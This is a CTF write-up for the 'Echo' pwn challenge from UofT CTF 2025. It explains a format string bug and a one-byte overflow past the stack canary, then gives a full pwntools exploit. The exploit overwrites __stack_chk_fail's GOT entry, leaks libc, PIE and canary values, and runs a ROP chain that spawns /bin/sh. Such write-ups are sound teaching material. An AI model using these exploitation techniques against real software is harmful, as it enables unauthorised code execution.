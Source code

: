 # Echo -UofT CTF 2025 (Pwn)
Author : White  
Description : Yet another echo service. However, the service keeps printing stack smashing detected for some reason, can you help me figure it out?  
## 1. Vulnerability Summary
**Protection**  
| RELRO         | Canary | NX   | PIE  |
|---------------|--------|------|------|
| Partial RELRO | Yes    | Yes  | Yes  |  

- The program accepts unrestricted input to `printf`, resulting in a format string vulnerability
- The buffer begins at `rsp + 7`
- The stack canary resides at `rbp + 8`, allowing precisely 1 byte of overflow without triggering detection
- The `__stack_chk_fail@GOT` entry can be overwritten via format string write
## 2. Exploitation Strategy
| Step            | Detail                                                        |
|-----------------|---------------------------------------------------------------|
| GOT Overwrite   | `__stack_chk_fail@GOT` → `vuln()` using FSB (Partial Overwrite)     |
| Info Leak       | libc, PIE, stack canary via FSB `%lx|%lx|%lx` style           |
| ROP             | Injected after bypassing canary; uses libc gadgets            |

## 3. Exploit Code
```from pwn import *

p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
elf = ELF('./chall')
libc = ELF('./libc.so.6')

missing_byte = int(input(), 16)

overflow_offset = 0x8 * 8 + 1

vuln = elf.symbols['vuln']

patched_addr = (vuln % 0x1000) | ((missing_byte - 3) << 12)
print(hex(patched_addr))

fmt = f'%{ (vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%15$hn'.encode()
payload = fmt.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')

p.send(payload)

sleep(1)

libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
p.send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode())

leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7'):]

libc_base = int(leak[:12], 16) - 0x114992
print("libc base :", hex(libc_base))

pie_base = int(leak[13:25], 16) - 0x1278
print("pie base :", hex(pie_base))

binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
pop_rdi = libc_base + 0x2a3e5
ret = pie_base + 0x101a

print("/bin/sh :", hex(binsh))
print("system :", hex(system))
print("pop rdi; ret :", hex(pop_rdi))
print("ret :", hex(ret))

sleep(1)

p.send(b'AA')
canary_leak = p.recv()[1:9]
canary = b'\x00' + canary_leak[1:]
canary = int.from_bytes(canary, 'little')
print("canary :", hex(canary))

sleep(1)

ROP = b'A'
ROP += p64(canary)
ROP += b'B' * 0x8
ROP += p64(ret)
ROP += p64(pop_rdi)
ROP += p64(binsh)
ROP += p64(system)

p.send(ROP)

p.interactive()```
